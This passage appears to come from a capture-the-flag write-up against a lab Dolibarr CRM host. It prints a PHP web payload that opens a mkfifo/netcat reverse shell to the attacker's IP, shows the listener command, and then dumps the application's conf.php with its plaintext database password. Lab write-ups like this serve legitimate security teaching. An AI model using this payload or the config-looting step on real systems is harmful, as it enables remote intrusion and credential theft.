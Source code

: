 ```php
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 4444 >/tmp/f");?>
```

Now start the listener.

```sh
nc -nlvp 4444
```

And after I click on the binocular icon, I got a connection to my listener.

Now after navigating on the system, I found the file sitting on `conf` directory on the path `/var/www/html/crm.board.htb/htdocs/conf`.

Opening the file it gives the password on plain-text.

```php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
```